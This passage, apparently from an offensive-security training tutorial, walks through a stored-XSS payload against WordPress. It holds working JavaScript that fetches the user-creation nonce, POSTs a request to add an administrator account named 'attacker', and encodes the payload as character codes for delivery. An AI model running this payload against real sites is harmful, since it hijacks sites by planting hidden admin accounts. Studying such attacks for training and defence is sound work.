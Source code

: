 
This function performs a new HTTP request towards the /wp-admin/user-new.php URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string _/ser" value="_ and double quotes.

Now that we've dynamically retrieved the nonce, we can craft the main function responsible for creating the new admin user.

```javascript
// This is a string of parameters to be sent in the body of the POST request.
// The parameters include various details like the action to be taken ('createuser'), 
// the nonce value obtained from the previous block of code, and the details of the new user to be created.
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";

// Create a new XMLHttpRequest object for making HTTP requests from JavaScript.
ajaxRequest = new XMLHttpRequest();

// Initialize a request with "POST" as the method, the previously defined URL, and true for asynchronous request.
ajaxRequest.open("POST", requestURL, true);

// Set the content type of the HTTP request to 'application/x-www-form-urlencoded' which is standard for POST requests that are submitting form data.
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

// Send the request to the server with the parameters defined earlier.
ajaxRequest.send(params);

```

In essence, this script is constructing and sending a POST request to create a new user on a WordPress site. The params variable contains the data necessary for creating a new user, including the user's login name, email, password, and role. The nonce that was obtained from the previous block of code is also included in the parameters to bypass the security measure protecting the form.

To ensure that our JavaScript payload will be handled correctly by Burp and the target application, we need to first minify it, then encode it. Use something like JS Compress.

To encode:

```javascript
// This function takes a string as input and returns a string of numbers
// where each number is the ASCII code of the corresponding character in the input string.
function encode_to_javascript(string) {
    var input = string
    var output = '';

    // The for loop goes through each character in the input string.
    for(pos = 0; pos < input.length; pos++) {
        // The charCodeAt() method returns the ASCII code of the character at the specified index in the string.
        // This code is added to the output string.
        output += input.charCodeAt(pos);

        // If the current character is not the last character in the string, a comma is added to the output string.
        // This is to separate the ASCII codes in the output.
        if(pos != (input.length - 1)) {
            output += ",";
        }
    }

    // The function returns the output string, which is a comma-separated list of ASCII codes representing the input string.
    return output;
```
